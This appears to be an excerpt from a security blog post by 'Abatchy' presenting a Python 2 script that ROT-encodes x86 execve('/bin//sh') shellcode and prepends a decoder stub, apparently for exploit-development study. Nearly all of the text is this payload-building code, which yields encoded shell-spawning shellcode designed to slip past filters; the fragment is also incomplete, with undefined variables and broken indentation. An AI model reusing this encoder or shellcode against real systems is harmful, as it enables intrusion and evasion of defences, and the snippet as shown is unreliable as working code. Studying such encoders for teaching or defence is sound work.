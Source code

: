 ```python
hasNulls = False  
          
print "[+] Generating ROT-{0} encoded payload".format(magic)  
  
execvesh = ("\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\xb0\x0b\xcd\x80")  
  
  
for i in bytearray(execvesh):  
 j = (i + magic)%256  
        if j == 0:  
                hasNulls = True  
 rotated_execve += '\\x'  
 rotated_execve += '%02x' %j  
  
sc = "\\xeb\\x09\\x5e\\x80\\x2e" + ("\\x%02x"%magic) + "\\x74\\x08\\x46\\xeb\\xf8\\xe8\\xf2\\xff\\xff\\xff"   
sc += rotated_execve + ("\\x%02x"%magic)  
  
print "[+] Generated shellcode: " + sc  
  
if hasNulls:  
    print "[-] WARNING: Encoded payload contains at least one null byte, consider changing N"  
```

Feel free to give any feedback/suggestions.  
  
\- Abatchy

